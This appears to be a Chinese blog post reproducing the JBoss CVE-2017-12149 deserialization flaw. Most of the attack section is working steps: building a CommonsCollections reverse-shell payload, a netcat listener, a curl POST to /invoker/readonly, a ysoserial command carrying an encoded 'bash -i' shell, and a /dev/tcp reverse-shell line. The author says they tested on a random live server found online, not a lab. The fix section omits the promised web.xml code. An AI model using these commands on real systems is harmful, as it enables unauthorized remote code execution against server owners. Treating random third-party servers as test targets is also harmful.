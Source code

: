 ```yaml
---
layout: post
title: CVE-2017-12149 JBoss 5.x 6.x 反序列化漏洞复现
comments: false
description: ""
keywords: "Vulnerability"
---
```


2017年8月30日，Redhat公司发布了一个JbossAS 5.x系统的远程代码执行严重漏洞通告，相应的漏洞编号为CVE-2017-12149。近期有安全研究者发现JbossAS 6.x也受该漏洞影响，攻击者可能利用此漏洞无需用户验证在系统上执行任意命令。

2017年9月14日，国家信息安全漏洞共享平台（CNVD）收录了JBOSS Application Server反序列化命令执行漏洞（CNVD-2017-33724，对应CVE-2017-12149），远程攻击者利用漏洞可在未经任何身份验证的服务器主机上执行任意代码。

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

## 环境搭建

p师傅的vulhub和Medicean的Vulapps对应的这个docker环境执行之后还没运行起来就Exit了；

这里图省事通过xxxx随便找了一个小白鼠；

## 漏洞复现

该漏洞出现在 **/invoker/readonly** 请求中，服务器将用户提交的POST内容进行了Java反序列化；

如果页面返回500一般是存在了；

![CVE-2017-12149-1.png](/assets/images/2017-11-27/1868119407.png)

使用工具：[http://scan.javasec.cn/java/JavaDeserH2HC.zip](http://scan.javasec.cn/java/JavaDeserH2HC.zip)

使用方法：

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap ip:port
```

此时会生成一个ReverseShellCommonsCollectionsHashMap.ser二进制文件;

在VPS上监听：

```
nc -l -vv 4444
```

利用curl发送POST包，数据来源这个二进制文件：

```
curl http://192.268.197.25:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

note：二进制文件不要忘记@

![CVE-2017-12149-2.png](/assets/images/2017-11-27/544366369.png)

![CVE-2017-12149-3.png](/assets/images/2017-11-27/1750008314.png)

JBoss权限较高，会拿到很舒服的shell；

## 使用 ysoserial.jar

生成二进制文件：

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,xxxxx:xxx}|{base64,-d}|{bash,-i}" > poc.ser
```

VPS监听，发放数据包；

![CVE-2017-12149-4.png](/assets/images/2017-11-27/1105192821.png)

![CVE-2017-12149-5.png](/assets/images/2017-11-27/1786715665.png)

note：使用bash来反弹shell `bash -c "bash -i >& /dev/tcp/10.0.0.1/21 0>&1"`，但由于`Runtime.getRuntime().exec()`中不能使用管道等bash需要的方法，我们需要用进行一次编码。

工具：http://jackson.thuraisamy.me/runtime-exec-payloads.html

参考 p师傅：[http://vulhub.org/#/environments/jboss/CVE-2017-12149](http://vulhub.org/#/environments/jboss/CVE-2017-12149/)

## 漏洞影响

Jboss AS 5.x

Jboss AS 6.x

## 修复方案

由于漏洞只影响JBoss 5.x/6.x，大可升级到JBOSS AS7;

临时解决方案：

(1)不需要 http-invoker.sar 组件的用户可直接删除此组件。

(2)添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中：

(3)用于对 http invoker 组件进行访问控制。

## 参考博文

[https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg](https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg)
[https://www.secfree.com/article-571.html](https://www.secfree.com/article-571.html)
[https://www.cnblogs.com/sevck/p/7874438.html](https://www.cnblogs.com/sevck/p/7874438.html)
